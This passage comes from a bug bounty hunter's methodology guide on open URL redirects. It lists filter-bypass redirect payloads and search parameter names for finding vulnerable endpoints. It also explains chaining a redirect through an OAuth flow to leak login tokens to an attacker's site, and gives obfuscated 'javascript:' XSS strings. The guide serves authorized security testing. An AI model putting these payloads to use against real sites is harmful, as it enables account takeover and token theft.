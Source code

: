 # open-url-redirection-payloads

Open url redirects
My favorite bug to find because I usually have a 100% success rate of using a
“harmless” redirect in a chain if the target has some type of Oauth flow which
handles a token along with a redirect. Open URL redirects are simply urls such as
https://www.google.com/redirect?goto=https://www.bing.com/ which when visited will
redirect to the URL provided in the parameter. A lot of developers fail to create any
type of filtering/restriction on these so they are very very easy to find. However with
that said, filters sometimes can exist to stop you in your tracks. Below are some of
my payloads I use to bypass filters but more importantly used to determine how their
filter is working.
\/yoururl.com
\/\/yoururl.com
\\yoururl.com
//yoururl.com
ZSeanos Methodology - https://www.bugbountyhunter.com/ Page 23
//theirsite@yoursite.com
/\/yoursite.com
https://yoursite.com%3F.theirsite.com/
https://yoursite.com%2523.theirsite.com/
https://yoursite?c=.theirsite.com/ (use # \ also)
//%2F/yoursite.com
////yoursite.com
https://theirsite.computer/
https://theirsite.com.mysite.com
/%0D/yoursite.com (Also try %09, %00, %0a, %07)
/%2F/yoururl.com
/%5Cyoururl.com
//google%E3%80%82com
Some common words I dork for on google to find vulnerable endpoints: (don't forget
to test for upper & lower case!)
return, return_url, rUrl, cancelUrl, url, redirect, follow, goto, returnTo, returnUrl, r_url,
history, goback, redirectTo, redirectUrl, redirUrl
Now let's take advantage of our findings. If you aren't familiar with how an Oauth
login flow works I recommend checking out
https://www.digitalocean.com/community/tutorials/an-introduction-to-oauth-2.
Typically the login page will look like this:
https://www.target.com/login?client_id=123&redirect_url=/sosecure and usually the
redirect_url will be whitelisted to only allow for *.target.com/*. Spot the mistake?
Armed with an open url redirect on their website you can leak the token because as
the redirect occurs the token is smuggled with the request.
The user is sent to
https://www.target.com/login?client_id=123&redirect_url=https://www.target.com/redi
rect?redirect=1&url=https://www.zseano.com/ and upon logging in will be redirected
ZSeanos Methodology - https://www.bugbountyhunter.com/ Page 24
to the attackers website along with their token used for authentication. Account
takeover report incoming!
One common problem people run into is not encoding the values correctly,
especially if the target only allows for /localRedirects. Your payload would look like
something like /redirect?goto=https://zseano.com/, but when using this as it is the
?goto= parameter may get dropped in redirects (depending on how the web
application works and how many redirects occur!). This also may be the case if it
contains multiple parameters (via &) and the redirect parameter may be missed. I will
always encode certain values such as & ? # / \ to force the browser to decode it
after the first redirect.
Location: /redirect%3Fgoto=https://www.zseano.com/%253Fexample=hax
Which then redirects, and the browser kindly then decodes %3F in the BROWSER
URL to ?, and our parameters were successfully sent through. We end up with:
https://www.example.com/redirect?goto=https://www.zseano.com/%3Fexample=hax,
which then when it redirects again will allow the ?example parameter to also be sent.
You can read an interesting finding on this further below.
Sometimes you will need to double encode them based on how many redirects are
made & parameters.
https://example.com/login?return=https://example.com/?redirect=1%26returnurl=http
s%3A%2F%2Fwww.google.com%2F
https://example.com/login?return=https%3A%2F%2Fexample.com%2F%3Fredirect=
1%2526returnurl%3Dhttps%253A%252F%252Fwww.google.com%252F
When hunting for open url redirects also bear in mind that they can be used for
chaining an SSRF vulnerability which is explained more below.
If the redirect you discover is via the “Location:” header then XSS will not be
possible, however if it redirected via something like “window.location” then you
ZSeanos Methodology - https://www.bugbountyhunter.com/ Page 25
should test for “javascript:” instead of redirecting to your website as XSS will be
possible here. Some common ways to bypass filters:
java%0d%0ascript%0d%0a:alert(0)
j%0d%0aava%0d%0aas%0d%0acrip%0d%0at%0d%0a:confirm`0`
java%07script:prompt`0`
java%09scrip%07t:prompt`0`
jjavascriptajavascriptvjavascriptajavascriptsjavascriptcjavascriptrjavascriptijavascript
pjavascriptt:confirm`0`
